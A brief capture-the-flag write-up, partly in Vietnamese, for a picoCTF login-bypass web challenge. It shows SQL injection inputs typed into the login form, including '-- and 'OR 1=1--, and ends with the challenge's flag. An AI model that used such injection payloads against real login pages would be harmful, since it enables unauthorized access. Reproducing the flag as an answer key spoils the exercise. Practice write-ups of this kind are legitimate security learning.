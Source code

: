 # Overview #
`300 points`

# Description #
here is a website running at https://jupiter.challenges.picoctf.org/problem/33850/ (link) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!

# Tiếp cận #

![image](https://github.com/hgiang20/PicoCTF_Writeup/assets/130575510/bd102d3f-2742-4c8a-90ff-dc1b63f9d3bd)
Thử username = admin; password = admin

![image](https://github.com/hgiang20/PicoCTF_Writeup/assets/130575510/082540dd-757a-4908-9a96-bf0a3ec3abf0)

Thử username = '-- để bypass password hoặc password = '--

![image](https://github.com/hgiang20/PicoCTF_Writeup/assets/130575510/0e1264e6-5fd5-4c36-b68c-8cda1e54406d)

Thử username = 'OR 1=1--

![image](https://github.com/hgiang20/PicoCTF_Writeup/assets/130575510/3718c9dd-96dc-4506-a999-234971d4681f)

Flag Your flag is: picoCTF{s0m3_SQL_f8adf3fb}


